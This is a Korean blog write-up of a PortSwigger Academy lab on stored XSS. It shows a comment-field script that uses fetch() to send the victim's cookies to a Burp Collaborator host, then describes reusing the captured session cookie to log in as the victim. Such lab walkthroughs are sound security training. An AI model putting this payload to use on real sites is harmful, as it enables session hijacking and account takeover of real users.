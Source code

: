 ```yaml
---
layout: post
title: "Burp Academy-CORS 취약점: Exploiting cross-site scripting to steal cookies"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XSS취약점]
toc: true
last_modified_at: 2023-07-24 10:48:00 +0900
---
```


# 개요
- Stored 타입의 XSS 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies
- 난이도: PRACTITIONER (보통)

# 문제
- 커멘트 저장하는 부분에 Stored XSS취약점이 존재한다. 
- victim의 세션 쿠키를 얻어내서 victim 계정으로 서버에 접근하면 문제가 풀린다. 
- 문제를 풀려면 정식 Collaborator서버를 사용해야 한다. 

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.
```


# 풀이 
- 문제에는 exploit서버가 주어지지 않는다. 
- 따라서 victim의 정보를 얻어내기 burp collaborator서버를 이용해야할 것 같다. 


Burp Suite에서 Burp Collaborator 페이로드를 하나 생성한다. 

그리고 해당 페이로드를 적용한 다음 exploit 코드를 웹 페이지의 커멘트에 저장한다. 작성자 이름과 메일 주소는 대충 적는다. 


```js
<script>
    fetch("https://b7jecv28f5s24fbxseef7kpoefk684wt.oastify.com?cookie="+encodeURIComponent(document.cookie))
</script>
```

커멘트를 저장한 후 블로그 글 상세보기 화면으로 돌아온다. 그리고 Burp Suite에서 collaborator서버 탭을 보면 다음 처럼 핑백이 나타난 것을 확인할 수 있다. victim 유저의 쿠키 값을 확인할 수 있다. URL 디코딩한 값은 다음과 같다. 

```
secret=Y8vNwX8F26uo4ZIMu7pv4MfHzuIMwr50; session=aD7nFaiUl2LcLrx2wK3NullmzDxF3LxR
```

![collaborator서버결과](/images/burp-academy-xss-5-1.png)

이제 victim으로 로그인하면 문제가 풀릴 것이다. 문제 서버의 홈으로 이동하는 요청을 Burp Proxy로 캡쳐하고 session의 값을 위에서 얻은 victim의 세션값으로 변경하고 요청을 보낸다. 그러면 문제 풀이에 성공했다는 메세지가 출력된다. 

![풀이성공](/images/burp-academy-xss-5-success.png)